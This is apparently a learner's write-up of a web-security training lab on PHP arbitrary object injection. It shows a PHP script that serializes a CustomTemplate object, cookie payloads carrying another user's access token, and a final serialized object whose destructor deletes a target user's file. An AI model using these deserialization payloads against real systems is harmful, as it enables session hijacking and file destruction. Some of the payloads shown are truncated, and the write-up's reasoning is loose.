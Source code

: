 # Practitioner Lab 100: Arbitrary object injection in PHP

---

This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the `morale.txt` file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: `wiener:peter`

By appending the ~ to the end of the file I was able to read code that the website had to look at the source code.

![Untitled](Practitioner%20Lab%20100%20Arbitrary%20object%20injection%20in%20cb6d376283aa4497af4a7172df9a5e23/Untitled.png)

After looking at the code 
• **`function __destruct()`**: This is the destructor of the class. It is called when the object is destroyed. If the lock file exists, it deletes the lock file. This is where the file deletion happens.

this means that this might be used to destroy the file.

```
<?php

class CustomTemplate {
    public $template_file_path;
    public $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }
}

// Create a new CustomTemplate object
$template = new CustomTemplate("morale.txt");

// Serialize the CustomTemplate object
$serialized_template = serialize($template);

// Output the serialized CustomTemplate object
echo $serialized_template;

?>

```

Using this php code I was able to inject the object

```
O:4:"User":2:{s:8:"username";s:6:"carlos";s:12:"access_token";s:32:"kxr51em3r6rdih4nsx6sxv46dbrs4c1s";}|O:14:"CustomTemplate":2:{s:18:"template_file_path";s:10:"morale.txt";s:14:"lock_file_path";s:15:"morale.txt.lock";
```

i tried to combine both cookies but this did not work.

Now my thought process is to try and match that cookie by using the number 0 with the == operator.

Since this did not work I then decided to tried to change into carlos account by performing some idor as well as changing the cookies username

This resulted in an error which showed me a valid token. 

![Untitled](Practitioner%20Lab%20100%20Arbitrary%20object%20injection%20in%20cb6d376283aa4497af4a7172df9a5e23/Untitled%201.png)

I decided to copy this token into the cookie to see what it would do. 

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"a8l3o6kng6f4imh5cxzmc61i7l36qdmz";}|O:14:"CustomTemplate":2:{s:18:"template_file_path";s:10:"morale.txt";s:14:"lock_file_path";s:15:"morale.txt.lock";
```

```
O:14:"CustomTemplate":2:{s:18:"template_file_path";s:23:"users/carlos/morale.txt";s:14:"lock_file_path";s:28:"users/carlos/morale.txt.lock";
```

```
O:14:"CustomTemplate":2:{s:18:"template_file_path";s:10:"morale.txt";s:14:"lock_file_path";s:15:"morale.txt.lock";}
```

This one was wrong because I thought I needed to add the .lock at the end but after looking at the code I noticed that I only needed to add the normal filepath and that the function would add the .lock and this worked.

```
O:14:"CustomTemplate":2:{s:18:"template_file_path";s:10:"morale.txt";s:14:"lock_file_path";s:10:"morale.txt";}
```

This final payload worked at the end and solved the lab.

![Untitled](Practitioner%20Lab%20100%20Arbitrary%20object%20injection%20in%20cb6d376283aa4497af4a7172df9a5e23/Untitled%202.png)

The lab payload was 

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

This is also a valid solution.